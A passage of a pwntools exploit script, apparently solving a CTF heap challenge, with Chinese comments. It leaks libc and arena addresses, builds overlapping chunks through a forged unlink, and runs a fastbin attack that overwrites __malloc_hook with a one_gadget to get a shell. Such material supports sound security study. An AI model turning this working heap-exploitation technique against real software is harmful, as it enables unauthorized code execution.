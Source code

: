 ```
heap = u64(addr[8:16])
log.info('heap address: %s', hex(heap))

new_note(0, 0xf0-8, 'A'*7)  #chunk_AAA的bk为main_arena+0x58的地址，即main_arena中top chunk的地址
addr = show_note(0)
main_arena = u64(addr[8:16])-0x58
log.info('main_arena address: %s', hex(main_arena))
libc = main_arena - libc_elf.symbols['__malloc_hook'] -0x10 #libc中__malloc_hook位于main_arena+0x10地址处
log.info('libc address: %s', hex(libc))
delete_note(0)
delete_note(1)
delete_note(2)

# 2. switch thread_arena and leak address

new_note(0, heap+0x100, '*')    #该chunk分配会失败，之后进入thread_arena
new_note(0, 0xf0-8, 'A'*(0xf0-8-1))
new_note(1, 0x70-8, 'B'*(0x70-8-1))
new_note(2, 0x100-8, 'C'*(0x100-8-1))
delete_note(1)
new_note(1, 0x10, 'D'*(0x10-1))
delete_note(1)
new_note(1, 0x70-8, 'B'*(0x70-8-1))
delete_note(2)
delete_note(0)
new_note(2, 0x100-8, 'C'*7)
addr = show_note(2)
thread_arena = u64(addr[8:16])
log.info('thread_arena address: %s', hex(thread_arena))
delete_note(1)
delete_note(2)

# 3. overlay chunk_BBB(fastbin)

new_note(1, 0x70-8, 'B'*(0x70-8-8)+p64(0x160))  #构造chunk_BBB，并将chunk_CCC的pre_size设置为0x160，即unlink时将chunk_AAA也纳入合并
new_note(2, 0x10, 'D'*0x7)  #利用chunk_DDD，避免chunk_CCC释放时合入top chunk

new_note(0, thread_arena+0x160+8+1, '*')    #将chunk_CCC的pre_isused位先置空，若在chunk_CCC分配后置空，将影响NON_MAIN_ARENA位，因为在thread_arena中，所以NON_MAIN_ARENA位必须为1
new_note(0, 0x100-8, 'C'*(0x100-8-8))
delete_note(0)  #触发unlink，此时chunk_AAA、chunk_BBB和chunk_CCC合并为一块chunk，并放入unsortbin
delete_note(1)  #将chunk_BBB释放回fastbin，完成overlap，该步骤也可理解为double free

# 4.fastbin attack

onegadget = libc + 0xf1147  #one_gadget在libc的偏移，可利用github的one_gadget工具得到

new_note(0, 0x160, 'A'*0xe0+p64(0xf0)+p64(0x74)+p64(libc+libc_elf.symbols['__malloc_hook']-0x23)+'B'*0x57)  #分配chunk_AAA，重点修改overlap的chunk_BBB的fd
new_note(1, 0x70-8, 'A'*(0x70-8-1)) #第一次分配fastbin，分配后fastbin指向__malloc_hook-0x23
delete_note(2)
new_note(2, 0x70-8, 'A'*0x13+p64(onegadget)+'zzz') #第二次分配fastbin，此时修改__malloc_hook为one_gadget
delete_note(1)

p.sendline('1')
p.recvuntil('index: ')
p.sendline('1')
p.recvuntil('size: ')
p.sendline('1')
p.interactive() #get shell

exit()
```